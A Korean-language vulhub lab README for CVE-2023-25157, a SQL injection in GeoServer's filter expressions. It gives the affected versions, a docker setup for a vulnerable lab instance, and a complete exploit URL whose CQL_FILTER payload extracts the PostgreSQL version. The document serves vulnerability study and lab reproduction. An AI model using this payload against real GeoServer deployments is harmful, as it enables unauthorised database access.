 # Whitehat School `vulhub` 한글판
# CVE-2023-25157

[중국 버전](README.zh-cn.md)

GeoServer는 지리 정보 데이터를 보고, 편집하고, 공유할 수 있는 기능을 제공하는 JAVA로 작성된 오픈 소스 소프트웨어 서비스이다. 
GIS는 지리 정보 시스템으로 데이터베이스, 웹 기반 데이터 및 개인 데이터 세트와 같은 다양한 원본의 지리 정보 데이터를 배포하기 위해 효율적인 솔루션으로 설계되었다.

2.22.1 및 2.21.4 이전 버전에서는 OGC(Open Geospatial Consortium) 표준에서 정의한 필터 및 함수 표현식에서 SQL Injection 문제가 발견되었다.

참고 :

- <https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158>
- <https://github.com/advisories/GHSA-7g5f-wrx8-5ccf>

## 취약한 환경

GeoServer 인스턴스 2.22.1을 시작하는 명령어 :
docker compose up -d


서버가 시작된 후 GeoServer의 기본 페이지를 다음 주소를 볼 수 있다 :
http://your-ip:8080/geoserver


## 익스플로잇 단계

취약점을 악용하기 전에 PostGIS 데이터 저장소를 포함하는 기존 작업 공간을 찾아야 한다. Vulhub의 GeoServer 인스턴스에는 이미 PostGIS 데이터 저장소가 있다.:

- 저장소 이름 : `vulhub`
- 데이터 저장소 이름 : `pg`
- Feature 유형 (테이블) 이름 : `example`
- Feature 유형의 속성 중 하나 : `name`

서버를 악용할 수 있는 URL :
http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true


![](1.png)

SQL injection을 통해 GeoServer로부터 PostgreSQL 버전이 검색된 것을 확인할 수 있다.

